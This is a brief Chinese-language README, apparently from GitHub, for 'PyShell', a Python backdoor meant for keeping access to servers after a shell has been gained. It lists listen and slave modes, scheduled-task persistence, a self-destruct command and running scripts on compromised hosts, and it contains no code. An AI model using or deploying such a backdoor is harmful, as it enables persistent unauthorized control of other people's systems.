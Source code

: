 # PyShell
python 后门程序

基于python编写的后门程序，主要用于获取服务器shell以后，留后门或者执行cmd、python脚本使用。

使用方法:

[HELP]  PyShell.exe [-listen(-slave)] [ip] [port]
[HELP]  python PyShell.py [-listen(-slave)] [ip] [port]
connection：
[HELP]  exit    ----退出连接
[HELP]  kill    ----退出连接并自毁程序
[HELP]  playtask    ----创建计划任务
[HELP]  python -p file.py    ----在肉鸡上执行本地python脚本

